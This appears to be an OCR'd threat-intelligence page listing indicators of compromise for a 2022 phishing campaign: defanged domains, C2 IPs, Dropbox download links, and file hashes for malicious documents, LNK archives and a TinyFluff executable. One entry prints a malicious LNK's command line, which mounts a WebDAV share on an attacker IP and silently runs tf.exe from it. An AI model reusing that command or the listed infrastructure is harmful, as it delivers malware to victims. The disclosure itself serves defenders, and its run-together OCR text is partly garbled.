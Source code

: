 a3c65c[.]org;ns1[.]a3c65c[.]org ns2[.]a3c65c[.]org ns3[.]a3c65c[.]org ns4[.]a3c65c[.]org;46.101.113[.]161 161.35.41[.]9 IPs   192.248.176[.]138    46.101.113[.]161   161.35.41[.]9 Updated on Apr. 14, 10:30 GMT   URLs   hxxps://dl[.]dropboxusercontent[.]com/s/1956cypkkihawuu/Anketa.docx?dl=0hxxps://dl[.]dropboxusercontent[.]com/s/gjyjs0rbtihy7ue/Doc1.dotmhXXps://dl.dropboxusercontent[.]com/s/9kng4v6vuq7mq39/akt_sverki.zip?dl=0hXXps://dl.dropboxusercontent[.]com/s/fq8ew6gl3x46rjc/Akt_sverki.zip?dl=0hXXps://dl.dropboxusercontent[.]com/s/lf1w11jxp2z0f6s/Akt_sverki.zip?dl=0hXXps://dl.dropboxusercontent[.]com/s/hy2ub5wnns4c0fi/Akt_sverki.zip?dl=0hXXps://dl.dropboxusercontent[.]com/s/ivopsmmssq04p92/DopSog_Consult.zip?dl=0hXXps:://dl.dropboxusercontent[.]com/s/mt0boz6v3u11hlx/DopSog_Consult.ziphXXps:://dl.dropboxusercontent[.]com/s/ocrracouta681r5/DopSog_Consult.zip?dl=0    Files   2022-03-22   Description;ValueLink;hxxps://dl[.]dropboxusercontent[.]com/s/1956cypkkihawuu/Anketa.docx?dl=0
Name;Anketa.docx
MD5;70F4416F6EC6C0DBF916A717BC4A612F
SHA1;AF3190DE95DD187661D0866404B087EC7BB8C6BA
SHA256;700FC6C697A869CC978D042B024E59C5FCD4E8905C2FBC7CAEEB3760C2905B5C
Size;137,081 bytes
Type;Initial malicious documentDescription;ValueLink;hxxps://dl[.]dropboxusercontent[.]com/s/gjyjs0rbtihy7ue/Doc1.dotm
Name;Doc1.dotm
MD5;669cd24d66587ebdbb709302ed011c0e
SHA1;313c8241e0c74fac52530c55089979ac4763e0e2
SHA256;ea95c527da29ca29072617dce28a567d11a7c777f2fcc2a752d0dff626180e70
Size;17,778 bytes
Type;Malicious templateDescription;ValueName;image2.jpg, image2.exe
MD5;B59B53C35F03CFF659F848297BCF3314
SHA1;BD0A6A3628F268A37AC9D708D03F57FEEF5ED55E
SHA256;4682A66EFA7C79AB56DFDFC1BBA5CF001D380D516FF1B64ACEA0B53784FDE8CC
Size;104,448 bytes
Compilation timestamp;2022-03-20 13:25:12 UTC
PDB;Z:\TinyFluff\Release\TinyFluff.pdbDescription;ValueName;s.txt
MD5;FC763A77DFFDBBC62D256524CD4808D9
SHA1;FAB504D579B2E1AAE8701EA1BDA3F3A8B694927F
SHA256;476852E3257631D6AC2882237CFA146DCAEFE17A10A11B984AEC5CC9B61D48D4
Size;16,092 bytes 2022-03-25   Description;ValueName;DopSog_Consult.zip
MD5;3e4ab86263e0ff5a35f2e3fb17d03727
SHA1;ae52c93c16c63aac9be778e89157b67c7bc7c61c
SHA256;09c0ac9e09f91a415f674c6cd27b1cc44d8c695da6a449d6baf70107027af2fa 
Size;987 bytes
Type;Archive with LNK
LNK hash;e1b5fc5df05b25fc7136cf9b7ea252e50ebff2efDescription;ValueName;Akt_sverki.zip
MD5;64db43f22430e75716aacd7ca13bbac6 
SHA1;dda9900cefa8cdc8ec362d80480ba6c4cfdc62b2
SHA256;f1102cceed4e6529f8c5b1bf387b798bfba727b49c4a7442b19c392335291cab
Size;1,002 bytes
Type;Archive with LNK
LNK hash;3c1b1942537ee273325b02ec305bb02e2d0a02f8Description;ValueName;Akt_sverki.zip
MD5;0c46a727d2b9d6e0d1c3bee3b9e90abf
SHA1;1e22af4c6e4dfe625043dddde295fef84bd36ab9
SHA256;bc7ccad7d1ed91a45e792866ff9a060414c1d3c2f9ae8f06689cb96a2e3957a6
Size;1,018 bytes
Type;Archive with LNK
LNK hash;3C1B1942537EE273325B02EC305BB02E2D0A02F8Description;ValueName;DopSog_Consultant.docx.lnk
MD5;858d14841bc1cc90e8e24a51aca814e1 
SHA1;e1b5fc5df05b25fc7136cf9b7ea252e50ebff2ef
SHA256;f36305e01515b73607f0f8941d9093fabe1b7a7e3f90c18f137403a0f016cdff
Size;1,610 bytes
Type;Malicious LNK
Command line;"%ComSpec%" /c net use hxxp://192.248.176[.]138 && start \\192.248.176[.]138\DavWWWRoot\DopSog_Consultant.docx && start /b \\192.248.176[.]138\DavWWWRoot\tf.exeDescription;ValueName;Akt_sverki_Consultant.docx.lnk
MD5;e8fce013184401fb8d6e248fc91b4f9e 
SHA1;3c1b1942537ee273325b02ec305bb02e2d0a02f8
SHA256;0a0889330501ee52ca5fe2b2f41fbcad7d26afce8bc430c7fe274e6ebe64c680 
Size;1,618 bytes
Type;Malicious LNK